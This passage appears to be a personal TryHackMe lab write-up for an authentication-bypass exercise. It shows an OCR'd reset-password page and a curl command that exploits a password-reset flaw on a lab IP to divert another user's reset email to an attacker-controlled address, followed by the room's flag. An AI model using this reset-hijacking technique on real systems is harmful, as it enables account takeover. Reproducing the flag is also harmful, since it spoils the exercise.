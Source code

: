 ```
                    <span class="icon-bar"></span>
                </button>
                <a class="navbar-brand" href="#">Acme IT Support</a>
            </div>
            <div id="navbar" class="collapse navbar-collapse">
                <ul class="nav navbar-nav">
                    <li><a href="/">Home</a></li>
                    <li><a href="/news">News</a></li>
                    <li><a href="/contact">Contact</a></li>
                    <li class="active"><a href="/customers">Customers</a></li>
                </ul>
            </div><!--/.nav-collapse -->
        </div>
    </nav><div class="container" style="padding-top:60px">
    <h1 class="text-center">Acme IT Support</h1>
    <h2 class="text-center">Reset Password</h2>
    <div class="row">
        <div class="col-md-4 col-md-offset-4">
                        <div class="alert alert-success text-center">
                <p>We'll send you a reset email to <strong>attacker@hacker.com</strong></p>
            </div>
                    </div>
    </div>
</div>
<script src="/assets/jquery.min.js"></script>
<script src="/assets/bootstrap.min.js"></script>
<script src="/assets/site.js"></script>
</body>
</html>
<!--
Page Generated in 0.04190 Seconds using the THM Framework v1.2 ( https://static-labs.tryhackme.cloud/sites/thm-web-framework )
-->                                                                                           
┌──(kali㉿kali)-[/usr/share/seclists/Usernames/Names]
└─$  curl 'http://10.10.235.218/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=witty@customer.acmeitsupport.thm' 

```

*use password reset with robert@acmeitsupport.thm then username robert then create an account  like witty@customer.acmeitsupport.thm to get account robert and then support tickets -> Please don't tell anyone this! THM{AUTH_BYPASS_COMPLETE} *

What is the flag from Robert's support ticket? *THM{AUTH_BYPASS_COMPLETE} *

### Cookie Tampering 

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges. If you need a refresher on cookies, check out the HTTP In Detail room on task 6.


